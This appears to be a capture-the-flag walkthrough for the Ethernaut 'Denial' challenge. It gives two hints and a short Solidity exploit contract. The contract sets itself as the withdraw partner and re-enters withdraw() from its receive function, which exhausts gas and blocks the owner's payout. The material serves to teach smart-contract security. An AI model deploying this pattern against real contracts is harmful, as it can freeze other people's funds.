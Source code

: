 # 20 - Denial

### Hints

<details>

<summary>Hint One</summary>

You will need to use your own contract as the “withdraw partner” to solve this challenge. This is because you will need to react to the `Denial` contract’s sending of ether in the `partner.call{value:amountToSend}("");` line. Much like a re-entrancy exploit…

</details>

<details>

<summary>Hint Two</summary>

Comments in the `Denial` contract state that your partner contract can revert and the owner will still get their share. Other than reverting, what other potentially disruptive actions could it perform?

</details>

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IDenial {
    function setWithdrawPartner(address _partner) external;

    function withdraw() external;
}

contract DenialExploit {
    IDenial private _denialContract;

    /**
     * Constructor sets `Denial` contract and adds itself as a 'withdraw
     * partner'.
     */
    constructor(address denialContractAddress) {
        _denialContract = IDenial(denialContractAddress);

        _denialContract.setWithdrawPartner(address(this));
    }

    receive() external payable {
        _denialContract.withdraw();
    }
}
```
